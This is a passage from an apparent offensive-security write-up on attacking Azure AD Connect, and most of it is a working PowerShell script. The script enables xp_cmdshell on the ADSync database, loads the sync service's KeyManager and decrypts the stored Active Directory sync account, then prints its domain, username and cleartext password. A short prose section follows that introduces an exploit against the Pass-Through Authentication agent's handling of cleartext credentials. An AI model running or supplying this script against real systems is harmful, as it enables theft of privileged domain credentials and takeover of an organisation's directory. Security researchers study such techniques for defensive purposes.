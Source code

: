 ```
$reader = $cmd.ExecuteReader()
if ($reader.Read() -ne $true) {
    Write-Host "[!] Error querying mms_management_agent"
    return
}
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
Write-Host "[*] Using xp_cmdshell to run some Powershell as the service user"
$cmd = $client.CreateCommand()
$cmd.CommandText = "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell.exe -c `"add-type -path ''C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'';`$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager;`$km.LoadKeySet([guid]''$entropy'', [guid]''$instance_id'', $key_id);`$key = `$null;`$km.GetActiveCredentialKey([ref]`$key);`$key2 = `$null;`$km.GetKey(1, [ref]`$key2);`$decrypted = `$null;`$key2.DecryptBase64ToString(''$crypted'', [ref]`$decrypted);Write-Host `$decrypted`"'"
$reader = $cmd.ExecuteReader()
$decrypted = [string]::Empty
while ($reader.Read() -eq $true -and $reader.IsDBNull(0) -eq $false) {
    $decrypted += $reader.GetString(0)
}
if ($decrypted -eq [string]::Empty) {
    Write-Host "[!] Error using xp_cmdshell to launch our decryption powershell"
    return
}
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerText}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerText}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}
Write-Host "[*] Credentials incoming...`n"
Write-Host "Domain: $($domain.Domain)"
Write-Host "Username: $($username.Username)"
Write-Host "Password: $($password.Password)"
```

### Pass Through Authentication exploit

In `Pass-through Authentication (PTA)` mode, the authentication requests are
sent to the `Azure AD Connect` server through a connection established by the
`Azure AD Connect Authentication Agent`
(`AzureADConnectAuthenticationAgentService.exe`).  Note that cloud-only
accounts will not affected by the exploit as their authentication requests are
processed only Azure AD-side.

The agent rely on the `LogonUserW` Win32 API function to validate the
received credentials against a on-premise Active Directory Domain Controller.
In order to make use of the Win32 API `LogonUser` functions, the Authentication
Agent must be in possession of the authentication request cleartext username
and password.
